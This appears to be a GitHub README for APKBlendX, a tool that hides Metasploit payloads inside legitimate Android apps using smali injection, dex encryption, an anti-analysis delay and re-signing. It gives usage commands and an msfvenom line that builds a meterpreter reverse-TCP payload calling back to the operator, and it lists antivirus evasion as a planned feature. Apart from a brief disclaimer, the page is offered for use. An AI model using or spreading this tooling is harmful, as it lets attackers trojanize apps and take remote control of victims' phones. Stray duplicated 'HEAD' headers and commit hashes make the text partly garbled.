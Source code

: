 HEAD
# APKBlendX
Android Payload Stealth Injector ~ By Zeus

HEAD
# APKBlendX
Android Payload Stealth Injector ~ By Zeus

# APKBlendX - Android Payload Stealth Injector

> Created by **Zeus**

APKBlendX is a Python-based tool designed to stealthily inject Android payloads (such as Metasploit APKs) into legitimate APKs. It includes obfuscation, smali injection, Dex encryption, native library support, anti-analysis, and custom signing.

---

## 🔧 Requirements

* Python 3.7+
* Java JDK (`keytool`, `jarsigner`)
* [apktool](https://ibotpeaches.github.io/Apktool/install/)
* [zipalign](https://developer.android.com/studio/command-line/zipalign)
* Metasploit (for payload generation, optional)

---

## 📦 Installation

```bash
# Clone the repository
$ git clone https://github.com/Zeus-64Bit/APKBlendX.git
$ cd APKBlendX

# Create directories
$ mkdir -p keys build
```

---

## 🔑 Generate Keystore

```bash
$ keytool -genkeypair \
  -alias apkblendx \
  -keyalg RSA \
  -keysize 2048 \
  -validity 10000 \
  -keystore keys/apkblendx-release.keystore \
  -storepass yourpassword \
  -keypass yourpassword \
  -dname "CN=APKBlendX, OU=YOUR_NAME, O=PayloadTeam, L=CyberCity, S=Web, C=IN"
```

---

## 🛠️ Usage

```bash
python3 apkblendx.py \
  --target payload.apk \
  --legit legit.apk \
  --output build/final.apk \
  --keystore keys/apkblendx-release.keystore \
  --alias apkblendx \
  --keystore-pass yourpassword \
  [--auto-rebrand yes|no] \
  [--package-name com.example.myapp] \
  [--inject-smali path/to/smali_folder] \
  [--inject-native path/to/lib_folder] \
  [--encrypt-dex] \
  [--time-delay 5]
```

---

## 📸 Screenshot

Here's how APKBlendX looks in action:

![Terminal Preview](screenshots/terminal_view.png)

---

## 🧰 Features

| Feature          | Description                                                            |
| ---------------- | ---------------------------------------------------------------------- |
| Auto Rebranding  | Randomizes the package name or accepts custom one                      |
| Smali Injection  | Injects arbitrary smali code into MainActivity                         |
| Native Injection | Injects `.so` native libraries to `lib/armeabi-v7a/`                   |
| Dex Encryption   | Encrypts payload `classes.dex` and injects `DexClassLoader` at runtime |
| Time Delay       | Delays payload execution for anti-analysis                             |
| Custom Signing   | Signs APK using your keystore                                          |

---

## 🧪 Generate Payload (Optional)

You can create a Metasploit payload APK:

```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=your_ip LPORT=4444 \
  -o payload.apk
```

---

## 🧼 Clean Build Cache

```bash
python3 apkblendx.py --help   # Will auto clean workspace
```

Or manually:

```bash
rm -rf workspace build
```

---

## 🚫 Disclaimer

APKBlendX is intended for **educational** and **ethical penetration testing** purposes only. Unauthorized use is illegal.

---

## 🙏 Credits

* Smali/Backsmali by JesusFreke
* Apktool by iBotPeaches
* Metasploit Framework
* Inspired by the Android security community

---

## 🧠 Ideas for Future

* GUI Mode
* VirusTotal evasion check
* Custom payload builder
* Emulator detection engine

---

Enjoy blending with stealth.

TG for assitance: @forrepix27
**\~ Zeus-64Bit**
78b11e6 (Initial commit of APKBlendX v1.0)
4902614 (Initial commit of APKBlendX v1.0)
